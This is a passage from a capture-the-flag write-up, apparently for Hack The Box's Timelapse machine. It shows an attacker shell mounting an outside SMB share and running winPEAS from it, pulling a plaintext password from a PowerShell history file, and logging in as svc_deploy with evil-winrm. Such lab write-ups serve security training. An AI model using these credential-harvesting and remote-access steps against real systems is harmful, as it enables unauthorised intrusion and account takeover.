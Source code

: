 Now mount the shares on victim machine so that we can access it there

```powershell
*Evil-WinRM* net use \\10.10.10.10\share /u:ab ab
The command completed successfully.

*Evil-WinRM* PS C:\Users\legacyy\Documents> cd \\10.10.10.10\share
```

Now run **winpease** on victim machine and save the output in a file **win_peas.txt** and analyze it using `cat`

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share>./winPEASx64.exe cmd > win_peas.txt
```

After analyzing the win_peas output, an PowerShell backup file come in front of me. When i open it i found credentials of **svc_deploy** user.
	`svc_deploy  : E3R$Q62^12p7PLlC%KWaxuaV`

<img width="856" alt="Pasted image 20240119214052" src="https://github.com/iammR0OT/HTB/assets/74102381/e4107438-81f2-4862-a8b9-7c79b3397c67">

```powershell
*Evil-WinRM* PS C:\Users> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Shell as scv_deploy

Let's log into **svc_deploy** using **Evil-Winrm**. Here **-i** is for domain ip, **-u** for domain username, **-p** for user password and **-S** to enable SSL

```powershell
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S                                       
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

